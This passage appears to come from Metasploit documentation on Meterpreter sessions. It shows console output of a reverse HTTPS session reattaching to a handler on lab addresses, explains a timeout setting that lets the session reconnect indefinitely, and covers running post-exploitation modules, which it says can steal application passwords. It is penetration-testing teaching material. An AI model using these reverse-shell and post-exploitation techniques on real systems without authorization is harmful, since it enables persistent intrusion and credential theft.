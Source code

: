```
meterpreter > detach

[*] 172.16.23.185 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(handler) > run

[*] Started HTTPS reverse handler on https://172.16.23.1:4444
[*] Starting the payload handler...
[*] https://172.16.23.1:4444 handling request from 172.16.23.185; (UUID: utvmhcay) Attaching orphaned/stageless session...
"https://172.16.23.1:4444/56uhMwqiB8B0s3WyIzN-3wEo5JA4AcwGUum6UAAWxN2MEy0-Tw8f0GH7EOK-uTte7O6WXt8y9KRTiQX88Fn0CNy5yxFMndf1NPfRXelG6se/"
[*] Meterpreter session 2 opened (172.16.23.1:4444 -> 172.16.23.185:49207) at 2016-07-11 11:38:21 -0500

meterpreter >
```

By default, the Meterpreter session will continue to reach back to you for five minutes. If it
is unable to connect back after that, it will terminate. You can extend this by setting the
```SessionCommunicationTimeout``` option to your choice. Setting this option to 0 ensures that
your session will reattach whenever the target comes back online, as long as the payload handler
is running.


## Using a Post Module

One of the best things about Meterpreter is you have access to a variety of post exploitation
modules, specifically for the multi and Windows categories. Post modules provide you with more capabilities to
collect data from the remote machine automatically. For example, you can steal passwords
from popular applications and enumerate or modify system settings.

To use a post module from the Meterpreter prompt, simply use the ```run``` command:

```
meterpreter > run post/windows/gather/checkvm 

[*] Checking if WIN-6NH0Q8CJQVM is a Virtual Machine .....
[*] This is a VMware Virtual Machine
meterpreter >
```

It is also possible to run a post module via multiple Meterpreter sessions. To learn how, load
the specific post module you wish to run, and enter ```info -d``` to see the basic usage in the
documentation.

## Using the Post Exploitation API in IRB

To enter IRB, do the following at the Meterpreter prompt:

```
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
